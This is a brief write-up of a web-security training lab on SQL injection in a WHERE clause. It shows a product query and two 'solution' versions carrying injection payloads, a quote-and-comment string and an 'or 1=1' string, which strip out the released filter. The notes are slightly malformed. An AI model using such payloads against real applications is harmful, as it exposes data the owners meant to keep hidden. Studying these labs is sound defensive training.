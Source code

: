 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1